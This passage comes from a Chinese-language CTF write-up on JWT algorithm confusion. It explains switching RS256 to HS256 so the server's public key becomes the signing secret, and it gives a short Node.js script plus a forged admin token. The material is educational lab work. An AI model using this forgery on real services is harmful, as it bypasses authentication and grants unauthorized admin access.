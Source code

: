 ```
	  	res.end(flag);
	  }else{
	  	res.end('you are not admin'+err);
	  }
	});
});

```

哦，看来又有公钥和私钥，**然而这次只拿到了公钥。**

这里我们可以利用：将RS256算法改为HS256（非对称密码算法=>对称密码算法）

绕过服务端签名检测，从而构造JWT

解释：   

        HS256算法使用密钥为所有消息进行签名和验证。
    
        而RS256算法则使用私钥对消息进行签名并使用公钥进行身份验证。

如果将算法从RS256改为HS256，则后端代码将使用公钥作为密钥，然后使用HS256算法验证签名。

        由于攻击者有时可以获取公钥，因此，攻击者可以将头部中的算法修改为HS256，然后使用RSA公钥对数据进行签名。
    
        这样的话，后端代码使用RSA公钥+HS256算法进行签名验证

把原来的脚本修改一下

```
const jwt = require('jsonwebtoken');
var fs = require('fs');
var privateKey = fs.readFileSync('public.key');
var token = jwt.sign({ user: 'admin' }, privateKey, { algorithm: 'HS256' });
console.log(token)
```

jwt payload:

```
eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VyIjoiYWRtaW4iLCJpYXQiOjE2OTYzMzU0Njd9.VZuPjTj3neBAFdRAOGKWXmyugvAkws8Tm0s37UyQPug
```

VScode也有bug啊。

终于拿到flag了，环境坑我不浅。

恭喜AK！